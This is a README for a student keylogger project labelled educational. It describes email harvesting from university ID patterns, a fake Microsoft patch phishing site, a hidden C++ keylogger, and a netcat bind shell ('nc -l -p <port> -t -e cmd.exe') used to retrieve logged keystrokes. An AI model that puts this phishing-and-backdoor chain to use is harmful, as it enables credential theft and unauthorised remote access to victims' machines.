 # keylogger

Disclaimer: This project is for educational purposes only. 

The project consists of three stages, reconnaissance, phishing, and attack, respectively. You can check the [slide](https://docs.google.com/presentation/d/1gPKOFa4L5iZNUBC93aRHLyo68CuBljt5r5G959ol310/edit?usp=sharing) and [demo video](https://drive.google.com/file/d/1p_wR3EA5aYX3AFgCXlgbovBPu3-YU2k-/view?usp=sharing) for the further information. During the reconnaissance stage, the attacker collects target email addresses and uses ARP scan to obtain target IPs. Next, during the phishing stage, the attacker sends phishing emails that contain the link of the phishing website (fake Microsoft website in our case) to the victims. The downloader in the phishing website will redirect to the link of malware. If the victims follow the instructions, that is, download and run the .bat file (contains malware actually), the executable will start logging the keystrokes and create a backdoor shell. So the attacker can use the backdoor to retrieve a log file that contains some sensitive data. 

[arch]



## Requirement

- Virtualbox 5.2.18
- Kali Linux 64-bit VM
- Windows Server 2016 VM, which security protection is disabled (i.e., no firewall and antivirus software)
- Visual Studio C++ build tools 
- Netcat 



## How to use

### Recon

1. Target email addresses: According to the NCKU student ID number rule, we can collect a number of email addresses. Take a quick example, the student ID number which starts with "F7409" means the student majors in computer science and is enrolled in 2020. 

2. Target IPs: Since the attacker and victims are in the same subnet, we can use the `arp-scan` command in the Kali machine to execute the scanning, then parse the information to get target IPs. 

   ```
   $ sudo arp-scan -local 
   ```

### Phishing 

Microsoft exchange server vulnerability is one of the serious issues in 2021. Microsoft then released the patches to tackle the vulnerability. Our idea is to create a fake Microsoft patching website and cheat the victims to download the fake patch, which is malware actually.  

1. Phishing email: Warn the victims there may be a Microsoft exchange server vulnerability in his/her computer and lead the victims to access the phishing website. 

2. Phishing website: Use DriveToWeb service to host the phishing website, which is the same as the Microsoft official patching website, except for the instructions and the downloader. 

### Keylogger

The keylogger is based on Windows programming with C++. The keylogger keeps tracking keystrokes with the WinAPI `GetAsyncKeyState()` and logging the typed information as a file. Besides, the keylogger is hidden from the taskbar with the WinAPI `ShowWindow()` and the parameter `SW_HIDE`. For detailed information, please check the Windows app developer documentation. 

### Backdoor shell

Netcat is a useful networking tool. However, it is not secure. In our case, we use Netcat to create a backdoor shell. So we can retrieve the logging file which contains some sensitive information. 

1. Victim

   ```
   $ nc -l -p <port number> -t -e cmd.exe
   ```

2. Attacker

   ```
   $ nc <victim IP> <port number>
   ```

   

## Result

Here is some snapshots. 

Create the phishing website (right). 



Launch the keylogging attack successfully. 

![](https://github.com/chuang76/keylogger/blob/main/figure/result.png?raw=true)